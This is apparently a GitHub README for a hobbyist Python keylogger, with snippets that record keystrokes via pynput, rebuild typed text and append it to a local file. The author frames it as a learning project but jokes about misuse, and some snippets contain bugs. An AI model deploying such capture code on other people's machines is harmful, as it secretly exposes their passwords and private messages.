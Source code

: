 # Outline

- The program is a simple keylogger that runs in the background and logs the keystrokes of the users. A keylogger is often a malicious tool that is used to extract user info and while I have no intentions of using mine for the same (maybe, who knows), I was very interested in learning about how one worked and so I built my own using the pynput module. A detailed description lies below.

# Purpose:

- The program helped me understand the rudimentary nuances of a keylogger and how to make one myself, carefully extracting necessary information whilst storing it - all while running in the background. While the keylogger that I built is rather linear: given the fact that any edits are registered at the end of the sentence since the keylogger doesn't recognize mouse movement, building it helped solidify my understanding of scheduling tasks and how to work on one thread effectively.

# Description:

- Using the pynput module, registering keystrokes is a breeze and its listener makes it so that it consistently runs in the background.
- Any key that is pressed is appended to the end of a list of the keys pressed and every 30 seconds, the keys pressed are convered into words typed by the following bit of code:

    ```python
    def generate_sentence():
        global keys, written, words
        swap_case, shift_pressed, num_spaces = 0, False, 0
        for key in keys:
            if shift_pressed:
                swap_case = 0
                shift_pressed = False
            if key == Key.space:
                num_spaces += 1
                if num_spaces % 12 == 0:
                    words += '\n'
                else:
                    words += ' '
            elif key == Key.backspace:
                words = words[:-1]
            elif key == Key.enter:
                words += '\n'
            elif key == Key.shift:
                swap_case = 1
                shift_pressed = True
            elif key == Key.caps_lock:
                swap_case = 0 if swap_case else 1
            if str(key).find("Key") == -1:
                if key == '\x13':
                    continue
                elif str(key).isalpha:
                    if swap_case:
                        words += str(key).replace("'", "").swapcase()
                    else:
                        words += str(key).replace("'", "")
                elif str(key).isdigit or str(key) in string.punctuation:
                    words += str(key).replace("'", "")
        keys = []
        written = False
    ```

- This function takes care of various keys pressed such as shifts, backspace, enter etc and reflects the changes they would cause in the words that have been generated.
- Every 10 minutes, a function that writes the words generated to a txt file is called:

    ```python
    def write_file():
        global words, written
        with open(r"C:\Users\akush\Desktop\Programming\Projects\Keylogger\keys_logged.txt", 'a') as fhand:
            fhand.write("DATE: {}\n".format(date))
            fhand.write(words)
            fhand.write('\n')
            fhand.write('-'*79)
            fhand.write('\n')
        words = ''
        written = True
    ```

- These calls are made in the key_released function and while I tried to use the schedule module to call these functions, I ran into some threading issues where the listener of the pynput module would only be called once the scheduled tasks ran - I will try to fix that with multithreading but for now I used the time function in order to whip up a DIY solution for the same.

    ```python
    if curr_time - start_time_words >= 30:
            generate_sentence()
            start_time_words = time.time()

        if curr_time - start_time_list >= 600:
            write_file()
            start_time_list = time.time()
    ```

- I have left commented a piece of code I used during debugging where hitting the escape key caused the program to shut down and log whatever hadn't been generated and saved to the text file.
